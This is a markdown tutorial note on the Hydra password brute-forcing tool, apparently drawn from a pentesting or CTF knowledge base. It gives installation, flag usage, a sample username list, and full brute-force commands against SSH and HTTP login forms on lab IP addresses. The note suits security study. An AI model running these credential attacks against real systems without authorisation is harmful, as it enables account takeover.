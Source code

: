 
# Hydra
Hydra is a [brute forcing](/cybersecurity/TTPs/cracking/brute-force.md) tool used primarily for cracking passwords and logins on a network. It can brute force multiple connections/ login attempts *at the same time* which reduces the time it takes (when compared to sequential brute forcing).
## Usage
### Installation
Hydra can be installed using apt:
```bash
apt install hydra
```
## Syntax
### Basic Syntax:
```bash
hydra -l <username> -p <password> <ip> <service> -o <file name>
```
### `-l` login:
Give hydra a list of usernames.
```bash
hydra -l molly -p butterfly 10.10.137.76 ssh
```
**Note:** You can leave the value blank w/ `''` if the username is not needed.
#### `-L` Login:
Supply the list using a text file. If you have a text file filled with a wordlist of possible usernames, you can supply it w/ `-L`.
`usernames.txt`:
```bash
root
admin
user
molly
steve
richard
```
```bash
hydra -L usernames.txt -p butterfly 10.10.137.76 ssh
```
### `-p` & `-P` password:
Similar to `-l`/ `-L` you can use the `-p` and `-P` flags to supply a password or text file of passwords for hydra to try:
```bash
hydra -l molly -P passwords.txt 10.10.
167.73 ssh
```
### `-f` fail/ force stop
This flag tells hydra to *stop brute forcing* when a successful match is found.
```bash
hydra -l molly -p butterfly -f 10.10.136.
98 ssh
```
### `-v` verbose
The `-v` flag will tell hydra to output its progress as it works.
### `-s` port number
The `-s` flag is used to tell hydra which port on the target IP to attack. If we want to attack port 6969 then our command looks like:
```bash
hydra  -l molly -p peanuts -f 10.10.10.136 ssh -s 6969
```
### The `<service>` field
This field takes the service you want hydra to brute force on the target IP. If you want to brute force an [SSH](/networking/protocols/SSH.md) login for example, you provide `ssh`.
#### `http` service
For an [HTTP](www/HTTP.md) brute force, you need to provide the URL *w/ a placeholder for where hydra should inject the credentials*. Additionally, the URL string will be divided into *3 parts by the `:` delimiter* like this:
```bash
hydra ... http-post-form "<URL endpoint>:<parameters to bruteforce>:<error string>"
```
- `<URL endpoint>` will be whatever page, appended to the IP where the login we're trying to brute force is. For example, if the login page is at `http://10.10.161.7/login.php` then `/login.php` goes here.
- `<parameters>` this will hold the parameters we're brute forcing such as username and password (which we supplied w/ the `-L` and `-P` flags). If there is more than one, then we separate them w/ the `&` like you would in an actual URL. So, brute forcing username and password will look like this: `hydra... http-post-form "...:username=^USER^&password=^PASS^"`
- `<error string>` In order for hydra to know when it's found a successful match, we need to give it a string which *appears in the HTML of the response when a login attempt has failed*. So, if a failed login attempt returns an error like "Login failed", then we put that in this field: `hydra... http-post-form "...:Login failed"`.

Putting these all together will look like this:
```bash
hydra -L usernames.txt -P passwords.txt -f -v 10.10.161.7 http-post-form "/login.php:password=^PASS^&username=^USER^:Login failed" -s 8000
```

> [!Resources]
> - [Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)
> - [Try Hack Me Advent of Cyber '23](https://tryhackme.com/room/adventofcyber2023)
> - [Free Code Camp: Hydra](https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/)

